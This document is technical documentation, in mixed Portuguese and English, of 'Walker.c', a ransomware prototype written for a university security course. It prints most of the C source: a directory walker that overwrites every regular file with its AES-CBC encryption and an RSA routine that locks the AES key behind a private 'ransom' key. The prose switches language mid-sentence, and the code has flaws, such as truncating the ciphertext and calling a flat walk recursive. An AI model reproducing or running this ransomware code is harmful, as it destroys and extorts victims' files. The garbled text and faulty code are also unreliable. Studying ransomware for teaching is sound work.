 # Walker.c: Technical Scientific Documentation

## 1. Introduction

O presente documento descreve a estrutura, funcionamento e aspectos técnicos do software **Walker.c**, um protótipo de ransomware desenvolvido para fins exclusivamente educacionais no âmbito da disciplina **ES502 - Segurança da Informação** do curso de Engenharia Eletrônica da **Universidade Federal de Pernambuco (UFPE)**.

O projeto visa a exploração aplicada de técnicas criptográficas modernas, incluindo criptografia simétrica (**AES**) e assimétrica (**RSA**), bem como conceitos de segurança ofensiva e engenharia reversa. 

## 2. Functional Objective

O binário gerado pelo projeto realiza encryption and decryption operations on files do diretório de execução. As operações são:

- `--encode` ou `-e`: encrypts the files do diretório atual.
- `--decode` ou `-d`: requests a private RSA key e reverte os arquivos ao estado original.
- `--help` ou `-h`: displays help.

## 3. File Selection

A seleção dos arquivos é realizada pela função `walk`, definida em `FileHandler.c`. Apenas arquivos regulares são processados, utilizando a função `stat` e o macro `S_ISREG`. Diretórios, arquivos ocultos (prefixados por ".") e outros tipos de entrada são descartados:

```c
if (stat(path, &info) == 0 && S_ISREG(info.st_mode)) {
    if (encrypt)
        infect(path);
    else
        clean(path, rsa);
}
```

## 4. Modular Architecture

A arquitetura do sistema é modular, conforme a seguinte organização:

```
src/
├── main.c                 # Program Entry Point
├── FileHandler/           # File Handling
│   ├── FileHandler.c
│   └── FileHandler.h
├── encryption/
│   ├── encryption.h       # Unified Header
│   ├── AES/
│   │   ├── AES.c
│   │   └── AES.h
│   └── RSA/
│       ├── RSA.c
│       └── RSA.h
├── keys/                  # Key Storage
│   ├── AES.key
│   └── public_key.key
└── ransom.key             # Private RSA Key
```

## 5. Program Behavior

### 5.1. `main.c`

Realiza o parsing de argumentos com `getopt_long`, definindo a operação:

```c
static struct option long_options[] = {
    {"encode", no_argument, 0, 'e'},
    {"decode", no_argument, 0, 'd'},
    {"help",   no_argument, 0, 'h'},
    {0, 0, 0, 0}
};
```

Fluxo principal:

```c
switch (opt) {
    case 'e':
        walk(1, NULL);
        RSA_encrypt();
        break;
    case 'd':
        rsa = fopen("ransom.key", "rb");
        walk(0, rsa);
        RSA_decrypt(rsa);
        break;
    case 'h':
    default:
        usage(argv[0]);
}
```

### 5.2. `FileHandler.c`

#### Function `walk`

Recursively traverses the files in the execution directory:

```c
void walk(int encrypt, FILE *rsa) {
    DIR *dir = opendir(".");
    struct dirent *entry;
    struct stat info;
    char path[4096];

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.')
            continue;

        snprintf(path, sizeof(path), "./%s", entry->d_name);
        if (stat(path, &info) == 0 && S_ISREG(info.st_mode)) {
            if (encrypt)
                infect(path);
            else
                clean(path, rsa);
        }
    }
    closedir(dir);
}
```

#### Funções `infect` e `clean`

```c
void infect(char *filename) {
    encryptFile(filename, "keys/AES.key");
}

void clean(char *filename, FILE *rsa) {
    decryptFile(filename, "keys/AES.key");
}
```

### 5.3. `AES.c`

#### `encryptFile`

```c
void encryptFile(const char *filename, const char *keyfile) {
    FILE *f = fopen(filename, "rb");
    fseek(f, 0, SEEK_END);
    long filesize = ftell(f);
    rewind(f);

    uint8_t *plaintext = malloc(filesize);
    fread(plaintext, 1, filesize, f);
    fclose(f);

    // Carrega chave AES e IV (omitido)

    uint8_t *ciphertext = malloc(filesize + AES_BLOCKLEN);
    AES_CBC_encrypt_buffer(&aes, ciphertext, plaintext, filesize);

    f = fopen(filename, "wb");
    fwrite(ciphertext, 1, filesize, f);
    fclose(f);

    free(plaintext);
    free(ciphertext);
}
```

#### `decryptFile`

```c
void decryptFile(const char *filename, const char *keyfile) {
    FILE *f = fopen(filename, "rb");
    fseek(f, 0, SEEK_END);
    long filesize = ftell(f);
    rewind(f);

    uint8_t *ciphertext = malloc(filesize);
    fread(ciphertext, 1, filesize, f);
    fclose(f);

    // Carrega chave AES e IV (omitido)

    uint8_t *plaintext = malloc(filesize);
    AES_CBC_decrypt_buffer(&aes, plaintext, ciphertext, filesize);

    f = fopen(filename, "wb");
    fwrite(plaintext, 1, filesize, f);
    fclose(f);

    free(plaintext);
    free(ciphertext);
}
```

### 5.4. `RSA.c`

#### `RSA_encrypt`

```c
void RSA_encrypt() {
    FILE *aesFile = fopen("keys/AES.key", "rb");
    FILE *pubFile = fopen("keys/public_key.key", "rb");

    RSA *rsa = PEM_read_RSA_PUBKEY(pubFile, NULL, NULL, NULL);

    fread(key, 1, AES_KEYLEN, aesFile);
    RSA_public_encrypt(AES_KEYLEN, key, encrypted, rsa, RSA_PKCS1_OAEP_PADDING);

    FILE *out = fopen("keys/AES.enc", "wb");
    fwrite(encrypted, 1, rsa_len, out);
}
```

#### `RSA_decrypt`

```c
void RSA_decrypt(FILE *rsaFile) {
    RSA *rsa = PEM_read_RSAPrivateKey(rsaFile, NULL, NULL, NULL);

    FILE *enc = fopen("keys/AES.enc", "rb");
    fread(encrypted, 1, rsa_len, enc);

    RSA_private_decrypt(rsa_len, encrypted, decrypted, rsa, RSA_PKCS1_OAEP_PADDING);

    FILE *out = fopen("keys/AES.key", "wb");
    fwrite(decrypted, 1, AES_KEYLEN, out);
}
```

## 6. Security Considerations

All operations were implemented with an educational focus. O armazenamento da chave AES em disco e a sobrescrita dos arquivos originais representam riscos reais de perda de dados. The use of this code for unauthorized purposes pode configurar crime, conforme legislação vigente.

## 7. Conclusion

Walker.c represents a practical and scientific study da aplicação de criptografia em ataques ransomware. A modularidade do projeto, combinada com técnicas reais de criptografia, permite a compreensão aprofundada do funcionamento desse tipo de software malicioso. 

---

> **Legal Notice:** Este projeto é estritamente educacional. Do not use this software in real systems or with sensitive data.
